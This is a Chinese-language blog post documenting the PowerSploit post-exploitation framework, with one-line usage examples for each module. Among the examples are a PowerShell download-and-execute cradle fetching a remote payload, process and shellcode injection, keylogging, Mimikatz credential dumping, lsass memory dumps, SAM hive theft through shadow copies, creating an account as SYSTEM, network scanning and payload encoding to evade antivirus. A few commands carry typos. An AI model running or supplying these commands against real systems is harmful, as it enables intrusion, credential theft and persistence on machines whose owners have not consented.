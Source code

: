 ```yaml
---
title: "后渗透框架 PowerSploit"
date: 2019-07-25T00:00:00+08:00
draft: false
tags: ['powershell']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


PowerSploit 是基于 PowerShell 的后渗透框架. 在功能上分为杀软绕过, 命令执行, 特权提升, 权限维持, 信息收集等模块及一些辅助性脚本.

限于篇幅, 仅针对常用脚本进行说明.

<!--more-->

### PowerShell

PowerShell 是微软旨在替代 vbs 而开发的基于 .Net Framework 的命令行程序和脚本环境, 其强大的特性而被经常用于后渗透信息收集, 横向移动, 权限维持等.

Powershell 目前有 6 个版本, 其中 Windows 7/2008 R2 内置 Powershell 2.0, Windows 8/8.1/2012 R2 内置 PowerShell 3.0, Windows 10 1903 内置 PowerShell 5.0.

在 PowerShell 中, 一切皆为对象, 且命令一致采用 "动词-名词" 的格式, 如 `Set-Content`, `Get-Item`. PowerShell 的另一大好处为它拥有丰富的文档信息, 包括第三方脚本, 都可以采用 `Get-Help Command` 的方式查询帮助, 或加上 `-examples` 参数查看示例.

PowerShell 默认采用 Restricted 的执行策略, 即不允许所有脚本执行, 另有 AllSigned, RemoteSigned, Bypass, Unrestricted 策略, 使用 `Set-ExecutionPolicy` 更改策略, 其它绕过执行策略的方式在此不再赘述.

Powershell 因为其强大的特性, 如对 WinAPI 的支持, 大部分操作完全可以利用 PowerShell 来完成, 且为脚本语言, 无需编译, 达到了真正的无文件落地, 内存执行, 从而绕过了杀软的静态检测.

## PowerSploit

PowerSploit 是基于 PowerShell 的后渗透框架. 在功能上分为杀软绕过, 命令执行, 特权提升, 权限维持, 信息收集等模块及一些辅助性脚本.

限于篇幅, 仅针对常用脚本进行说明.

### CodeExecution

命令执行.

**Invoke-DllInjection**

向指定进程注入 DLL.

```
Invoke-DllInjection -ProcessID 1234 -Dll .\payload.dll
```

**Invoke-Shellcode**

向指定进程注入 Shellcode.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/payload.ps1')
Invoke-Shellcode -ProcessID 1234 -Shellcode $buf
```

**Invoke-ReflectivePEInjection**

反射型 DLL/PE 注入. 可从网络加载 DLL/PE 文件.

```
Invoke-ReflectivePEInjection -PEUrl http://192.168.1.100/payload.exe -Force
```

### Privesc

特权提升.

**PowerUp**

检查可用的提权方法.

```
Invoke-AllChecks
```

### Exfiltration

针对本机的信息收集.

**Get-GPPPassword**

导出组策略中配置的用户名和密码 (GPP 漏洞).

```
GET-GPPPassword
```

**Get-Keystrokes**

键盘记录.

```
Get-Keystrokes -LogPath .\keylog.txt
```

**Get-TimedScreenshot**

定时截图.

```
Get-TimedScreenshoft -Path .\ -Interval 10
```

**Get-VaultCredential**

导出 Windows 凭据.

```
Get-VaultCredential
```

**Invoke-Mimikatz**

Mimikatz 的 PowerShell 版本.

```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

**Invoke-NinjaCopy**

强行复制被进程占用的文件.

```
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\SAM
```

**Invoke-TokenManipulation**

窃取凭据. 实际测试只能通过 CreateProcess 的方式以 SYSTEM 权限执行命令.

```
Invoke-TokenManipulation -UserName "NT AUTHORITY\SYSTEM" -CreateProcess cmd.exe -ProcessArgs "net user test test /add"
```

**Out-Minidump**

procdump 的 PowerShell 版本.

```
Get-Process lsass | Out-Minidump
```

**VolumeShadowCopyTools**

ShadowCopy 的 PowerShell 版本.

```
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
Mount VolumeShadowCopy -Path .\ -DevicePath \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
copy .\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM .\
Remove-VolumeShadowCopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

### Recon

针对内网的信息收集.

**Get-ComputerDetail**

获取日志信息, 如 RDP 日志, 事件日志.

```
Get-ComputerDetail
```

**Get-HttpStatus**

目录扫描.

```
Get-HttpStatus -Target 192.168.1.1 -Port 8080 -Path .\admin.txt
```

**Invoke-Portscan**

端口扫描.

```
Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -TopPorts 50
```

**Invoke-ReverseDnsLookup**

内网 IP 反查主机名.

```
Invoke-ReverseDnsLookup '192.168.1.0/24,10.0.0.1'
```

**PowerView**

域渗透信息收集框架 [PowerView](https://exp10it.cn/powerview-domain-recon.html).

### ScriptModification

脚本更改.

**Out-CompressdDLL**

将 DLL 编码为可在 PowerShell 中调用的格式.
```
Out-CompressdDLL -FilePath .\payload.dll
```

**Out-EncodedCommand**

将 PowerShell 命令或文件编码为 base64 格式.

```
Out-EncodedCommand -ScriptBlock {"whoami"}
Out-EncodedCommand -Path .\payload.ps1
```

**Remove-Comment**

去除脚本中的空格和注释.

```
Remove-Comment -Path .\payload.ps1
```